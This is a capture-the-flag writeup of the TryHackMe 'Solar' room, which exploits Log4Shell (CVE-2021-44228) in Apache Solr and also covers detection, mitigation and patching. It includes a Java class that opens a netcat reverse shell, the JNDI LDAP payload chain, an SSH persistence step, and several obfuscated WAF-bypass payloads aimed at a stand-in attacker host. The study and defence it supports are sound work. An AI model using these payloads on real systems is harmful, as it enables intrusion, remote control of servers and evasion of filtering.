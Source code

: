 ```yaml
---
title: Solar, exploiting log4j
date: 2021-12-15 00:20:00 +0100
categories: [Writeups]
tags: [thm,log4j]
---
```


# Solar, exploiting log4j

Solar is a TryHackMe box designed to introduce and explore CVE-2021-44228 also called `log4shell`. The idea is to gain a better understanding on how the vulnerability work and also provide knowledge on how to detect and mitigate/patch. 

This room has been made by the great [John Hammond](https://twitter.com/_johnhammond).

## A little bit of history

On *December 9th, 2021*, the world was made aware of a new vulnerability identified as [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228), affecting the Java logging package `log4j`. This vulnerability earned a severity score of 10.0 (the most critical designation) and offers remote code trivial remote code execution on hosts engaging with software that utilizes this `log4j` version. This attack has been dubbed "Log4Shell" - John Hammond

The vulnerability has been patched in the latest version of `log4j` (2.15.0rc2) but there is still potentially millions of applications vulnerable in the wild. ([list](https://github.com/YfryTchsGD/Log4jAttackSurface))

## Reconnaissance

Let's start with our default `nmap` TCP port scan to find potentially vulnerable services.

```txt
sudo nmap -sS -T4 -p- 10.10.111.77 -vv 

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
111/tcp  open  rpcbind syn-ack ttl 63
8983/tcp open  unknown syn-ack ttl 63
```

The application is accessible through HTTP, we land on a `Solr 8.11.0` dashboard. `Apache Solr` is an open-source enterprise-search platform, written in Java ([Wikipedia](https://en.wikipedia.org/wiki/Apache_Solr))

![solr_recon](/assets/img/solar/solr_app.png)

## Discovery

The TryHackMe room make some Solr logs available for us to analyse.

In the logs, we can see requests to the path `/admin/cores` with a parameter called `param={}`\
It could potentially be some GET or POST data sent with the request that gets include in the logs.

![solr_logs](/assets/img/solar/solr_log.png)

This `param` parameter could be an entry point as the `log4j` will try to "parse" entries to enrich data, which could lead to undesirable action like execution of code.

## Proof of Concept

The basic payload syntax is `${jndi:ldap://IP}`.\
This payload use the `JNDI` ([Java Naming and Directory Interface](https://fr.wikipedia.org/wiki/Java_Naming_and_Directory_Interface)) functionnality to access external resources (and in our case a remote IP) using the `ldap` protocol.

If we were to open a listener on a port on our attacking machine and send a GET request to the path with a fake parameter containing the payload, we would see a connection back from the server.

![log4j_poc](/assets/img/solar/solr_poc.png)

This proves the `log4j` logging system query our attacking machine and is vulnerable to `CVE-2021-44228`.

## Exploitation

The problem is that our listener does not understand the `ldap` protocol, for this reason we need a **LDAP Referral Server** that will redirect the client request to a secondary HTTP server hosting the malicious file that will be ultimately executed on the target.

We can use [marshalsec](https://github.com/mbechler/marshalsec) as our LDAP Referall server. I will skip the java building step as it is not of interest here, but we should have a working LDAP server ready to run.

The next step is to create a malicious java class that will get executed on our target.

Exploit.java

```java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.9.25.40 4444");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

This simple code is a java class running a reverse shell using `exec()` method. Finally we need to compile the code into a `.class` executable with `javac Exploit.java -source 8 -target 8`.

We have everything we need to exploit the target. Now it's time for the show !\
We host the malicious `.class` executable on our python3 HTTP server.\
We run the LDAP Referral server pointing to our python3 server and finally we open a listener on the port specified in the reverse shell.

The only thing left to do is to GET request the vulnerable server just like the PoC but with a path pointing to our `Exploit` file.

![log4j_exploit](/assets/img/solar/solr_exploitation.png)

And we got our shell back ! Let's summarize the exploitation chain.

1. Curl request to injectable parameter with payload to our LDAP controlled server
2. LDAP Referral server receives the request from Solr server and direct the connection to our second HTTP server
3. Our secondary HTTP server serve the malicious java class `Exploit.class`
4. The malicious java class is executed by the server and we receive our reverse shell in our listener.

## Persistence

As we are the user `solr`, checking our home directory reveals a `.ssh` folder. We can create a persistence by generating a temporary key pair and add our public key to the `.ssh/authorized_keys` file.

We can now properly connect to the target using SSH.

## Detection

Looking at the log inside the target, we see our injected payload.

![injected_payload](/assets/img/solar/solr_log_payload.png)

In our context, the vulnerability is easy to detect because it appears in a single parameter in a GET request and we used the default payload but in a real world environment, it could be very difficult to find, and even harder because of the massive amount of bypasses.

John Hammond then shares some links from the community that worked hard those last few days to mitigate the threat.\
Feel free to browse them.

## Bypasses

The syntax we used in our payload is the default one and it might be caught by Web Application Firewalls (WAFs).
The room shows some bypasses we can experiment with.

Here are some of them.

```txt
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}
${${::-j}ndi:rmi://attackerendpoint.com/}
```

What we need to understand, is that bypasses can be of many forms because the attack targets `log4j` and payloads can also access all the "tools" `log4j` uses to do its magic.

## Mitigation

A mitigation was released soon after the vulnerability was made public, we need to add the line `SOLR_OPTS="$SOLR_OPTS -Dlog4j2.formatMsgNoLookups=true"` in the system-wide configuration file `/etc/default/solr.in.sh`

Retrying our previous exploit now fail which is good !

![mitigation](/assets/img/solar/solr_mitigate.png)

## Patching

At the time of writing this writeup, a lot of applications are still vulnerable to `CVE-2021-44228`, please take some time to better understand the vulnerability and look out for patches from vendors as it is a critical threat affecting millions of different devices from web servers to software clients.

Finally a message from John Hammond, I think is important to share.

*Please be understanding of this frenzy. There are so many potential places that this log4j vulnerability could be present, we may never see the end of this vulnerability for a long, long time. The onus is on you, on me, on each and every one of us to raise awareness of this incident, and hold the community accountable for actively responding.  When the time comes, roll out the patches that have been made available and continue to hunt for instances of this vulnerability. It takes a village.*

## Credits

I would like to thanks the amazing work from John Hammond for creating this room and being such a great actor in the cybersecurity community. Please check out his [Youtube channel](https://www.youtube.com/channel/UCVeW9qkBjo3zosnqUbG7CFw) for more content and be free to complete this room as it will give you better knowledge to detect and mitigate the vulnerability.

Hope you enjoy reading ! 
